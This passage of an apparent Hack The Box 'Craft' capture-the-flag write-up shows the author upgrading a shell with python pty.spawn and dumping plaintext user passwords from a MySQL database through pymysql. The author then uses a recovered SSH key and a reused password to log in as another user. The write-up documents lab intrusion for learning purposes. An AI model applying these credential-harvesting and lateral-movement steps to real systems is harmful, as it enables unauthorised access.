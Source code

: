 ```
```

The MySQL client is not installed on this machine but I can use the pymysql Python module to query the database.

```
/opt/app # python -c 'import pty;pty.spawn("/bin/sh")'
/opt/app # python
Python 3.6.8 (default, Feb  6 2019, 01:56:13) 
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pymysql
>>> connection = pymysql.connect(host='172.20.0.4', user='craft', password='qLGockJ6G2J75O',
    db='craft', cursorclass=pymysql.cursors.DictCursor)
>>> cursor = connection.cursor()
>>> cursor.execute("show tables")
2
>>> cursor.fetchall()
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
>>> cursor.execute("select * from user")
3
>>> cursor.fetchall()                   
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'},
 {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'},
 {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

So I found a few more credentials:
 - `ebachman / llJ77D8QFkLPQB`
 - `gilfoyle / ZEU3N8WNM2rh4T`

I can log in to the Gogs website with Gilfoyle's credentials:

![](/assets/images/htb-writeup-craft/gogs_gilfoyle.png)

Gilfoyle has a private repo: `craft-infra` and I find Gilfoyle's SSH private and public keys in the `.ssh` directory:

![](/assets/images/htb-writeup-craft/gogs_ssh.png)

I can now log in as user `gilfoyle` with the SSH key (the SSH key password is ZEU3N8WNM2rh4T):

```
# ssh -i id_rsa gilfoyle@10.10.10.110


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Enter passphrase for key 'id_rsa': 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
```
